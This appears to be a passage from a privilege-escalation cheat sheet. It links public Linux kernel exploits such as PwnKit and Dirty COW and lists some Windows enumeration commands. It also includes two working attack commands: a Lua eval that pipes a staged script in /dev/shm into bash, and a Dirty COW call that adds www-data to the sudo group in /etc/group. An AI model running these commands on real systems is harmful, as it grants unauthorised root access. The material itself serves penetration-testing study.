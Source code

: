 ```bash
eval 'local l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = l(); local f = io.popen("cat /dev/shm/sh | bash"); local res = f:read("*a"); f:close(); return res' 0
```

### Linux 2.6.9 (CVE-2009-2698)

[https://github.com/xiaoxiaoleo/CVE-2009-2698](https://github.com/xiaoxiaoleo/CVE-2009-2698)

### RDS (CVE-2010-3904)

[https://github.com/m0mkris/linux-kernel-exploits/tree/master/2010/CVE-2010-3904](https://github.com/m0mkris/linux-kernel-exploits/tree/master/2010/CVE-2010-3904)

### BPF Sign Privilege Escalation (CVE-2017-16995)

[https://github.com/rapid7/metasploit-framework/tree/master/data/exploits/cve-2017-16995](https://github.com/rapid7/metasploit-framework/tree/master/data/exploits/cve-2017-16995)

### PwnKit (CVE-2021-4034)

[https://github.com/ly4k/PwnKit](https://github.com/ly4k/PwnKit)

### Dirtyc0w (CVE-2016-5195)

[https://github.com/firefart/dirtycow](https://github.com/firefart/dirtycow)

[https://github.com/th3-5had0w/DirtyCOW-PoC/blob/main/dirtycow](https://github.com/th3-5had0w/DirtyCOW-PoC/blob/main/dirtycow)

[https://github.com/Brucetg/DirtyCow-EXP/tree/master/Linux](https://github.com/Brucetg/DirtyCow-EXP/tree/master/Linux)

```bash
./dirtycow /etc/group "$(sed '/\(sudo*\)/ s/$/,www-data/' /etc/group)"
```

[https://github.com/Brucetg/DirtyCow-EXP/tree/master/Linux](https://github.com/Brucetg/DirtyCow-EXP/tree/master/Linux)

### Python Module Hijacking

[https://rastating.github.io/privilege-escalation-via-python-library-hijacking/](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/)

### PrivEsc Guide Windows

```bash
tasklist /svc
```

```bash
dir C:\
```

```bash
dir "C:\program files (x86)"
```
